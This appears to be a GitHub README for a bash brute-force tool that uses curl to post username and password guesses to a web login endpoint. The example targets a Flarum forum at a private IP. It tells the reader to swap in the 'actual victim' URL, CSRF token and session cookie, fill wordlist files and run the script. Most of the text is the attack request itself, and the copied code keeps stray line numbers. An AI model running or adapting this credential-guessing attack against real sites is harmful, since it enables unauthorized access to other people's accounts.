 # Overview
Brute force using curl for user/passford fields 
<img src="https://github.com/Alexandersfg4/pictures/blob/master/Screenshot%202021-02-07%20at%2015.03.01.png" height="717" width="700">
## Getting started
1. Change url/headers/X-CSRF-Token/cookies to actual victim data
```
Request (){
  5 curl -o /dev/null -s -w "%{http_code}\n" -X POST -H "Content-Type: applicat    ion/json" \
  6         -H "Accept: */*" \
  7         -H "Accept-Encoding: gzip, deflate" \
  8         -H "Accept-Language: en-us" \
  9         -H "Origin: http://172.16.4.3:8080" \
 10         -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) App    leWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15" \
 11         -H "Connection: keep-alive" \
 12         -H "Referer: http://172.16.4.3:8080/" \
 13         -H "X-CSRF-Token: qheH4dzPl0nSkjPlkIZtm3pIfX4pgjaAxVlWFI15" \      
 14         -H "Cookie: flarum_session=C9J70piUW3WDKAee3sf619I744n9ImW3ecPv3Lai    " \
 15         -d "{\"identification\":\"$user_in_file\",\"password\":\"$password_    in_file\",\"remember\":false}" \
 16         http://172.16.4.3:8080/login
 17 }
```
1. Add data to passwords.txt and usernames.txt files
1. And than run the script ``` ./bruteforce.sh ```
